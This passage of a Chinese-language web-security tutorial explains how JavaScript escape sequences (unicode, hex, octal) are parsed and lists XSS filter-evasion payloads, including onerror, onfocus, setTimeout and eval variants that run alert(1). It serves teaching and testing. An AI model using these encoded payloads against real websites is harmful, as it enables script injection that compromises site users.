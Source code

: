 ##### 0x03. js 编码

**解析的时候字符或者字符串仅会被解码为字符串文本或者标识符名称，例如 js 解析器工作的时候将`\u0061\u006c\u0065\u0072\u0074`进行解码后为`alert`，而`alert`是一个有效的标识符名称，它是能被正常解析的。但是像圆括号、双引号、单引号等等这些字符就只能被当作普通的文本，从而导致无法执行。**

**由于 js 是最后进行解析的，所以如果混合编码，需要先使用 js 编码再进行 url 编码或者 html 实体编码。**

**js 编码策略：**

1. "\" 加上三个八进制数字，如果个数不够，前面补0，例如 "<" 编码为 "\074"
2. "\x" 加上两个十六进制数字，如果个数不够，前面补0，例如 "<" 编码为 "\x3c"
3. "\u" 加上四个十六进制数字，如果个数不够，前面补0，例如 "<" 编码为 "\u003c"
4. 对于一些控制字符，使用特殊的 C 类型的转义风格（例如 \n 和 \r）

```
<img src=x onerror="可控点">

<input onfocus=location="可控点" autofocus> 
```

**Payload**

```
<img src=x onerror="alert(1)">

<input onfocus=location="alert(1)" autofocus> 
```

**Unicode 编码**

```
<img src=x onerror="\u0061\u006c\u0065\u0072\u0074(1)">

<input onfocus=location="javascript:\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029" autofocus> 
```

**注：**

**Unicode 编码时，只能对有效的标识符进行编码，否则非标识符解码后不能解析执行。例如 javascript:alert(1) ，进行 Unicode 编码时，只能对 alert 和 "1" 进行编码，框号编码后会被当成文本字符，不能执行。****ascii 八进制和十六进制编码使用时需要 eval、setTimeout等函数传递变量，并且可以对整个传递参数进行编码。例如 eval("alert(1)")，可以对 "alert(1)" 整个进行八进制、十六进制或者 Unicode 编码(双引号不参与)。**

**八进制和十六进制**

setTimeout() 是属于 window 的方法，该方法用于在指定的毫秒数后调用函数或计算表达式。

语法：`setTimeout(要执行的代码, 等待的毫秒数)`

```
setTimeout(JavaScript 函数, 等待的毫秒数)
1.<svg/onload=setTimeout('\x61\x6C\x65\x72\x74\x28\x31\x29')>
2.<svg/onload=setTimeout('\141\154\145\162\164\050\061\051')>
3.<svg/onload=setTimeout('\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029')>
4.<script>eval("\x61\x6C\x65\x72\x74\x28\x31\x29")</script>
5.<script>eval("\141\154\145\162\164\050\061\051")</script>
6.<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```

##### 0x04. 混合编码
